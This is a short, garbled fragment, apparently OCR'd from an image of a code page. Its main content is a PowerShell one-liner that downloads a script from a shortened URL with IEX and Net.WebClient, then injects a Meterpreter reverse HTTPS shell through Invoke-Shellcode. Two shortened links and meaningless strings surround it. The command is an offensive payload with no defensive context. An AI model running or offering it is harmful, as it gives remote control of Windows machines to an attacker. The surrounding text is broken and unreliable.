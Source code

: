 check
=====
GGGHHHJJJ_now

FocusmazmanFocus


RunIEX (New-Object Net.WebClient).DownloadString('http://fur.ly/b357');Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lport 443 -Force -Lhost Run

http://fur.ly/b357
http://bit.ly/14bZZ0c

